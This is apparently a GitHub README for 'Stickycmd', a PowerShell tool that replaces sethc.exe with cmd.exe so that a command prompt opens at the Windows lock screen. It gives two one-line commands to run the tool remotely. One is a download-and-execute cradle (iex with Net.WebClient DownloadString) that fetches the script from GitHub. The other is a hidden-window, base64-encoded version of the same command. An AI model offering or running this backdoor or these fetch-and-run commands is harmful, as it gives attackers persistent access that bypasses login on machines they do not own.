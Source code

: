# Stickycmd

![Stickycmd](https://ctrla1tdel.files.wordpress.com/2020/05/uspluozhe5-1.gif)

## About

PowerShell Script that replaces sethc.exe with cmd.exe, allowing you to get a cmd prompt during the lockout screen. 


##Run

You can either run locally by downloading the script or run remotely using: 

powershell –nop –c “iex(New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/securethelogs/Stickycmd/master/stickycmd.ps1)”

or

powershell -nop -noni -w hidden -enc aQBlAHgAKAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAYIGgAdAB0AHAAcwA6AC8ALwByAGEAdwAuAGcAaQB0AGgAdQBiAHUAcwBlAHIAYwBvAG4AdABlAG4AdAAuAGMAbwBtAC8AcwBlAGMAdQByAGUAdABoAGUAbABvAGcAcwAvAFMAdABpAGMAawB5AGMAbQBkAC8AbQBhAHMAdABlAHIALwBzAHQAaQBjAGsAeQBjAG0AZAAuAHAAcwAxACcAKQApAA==


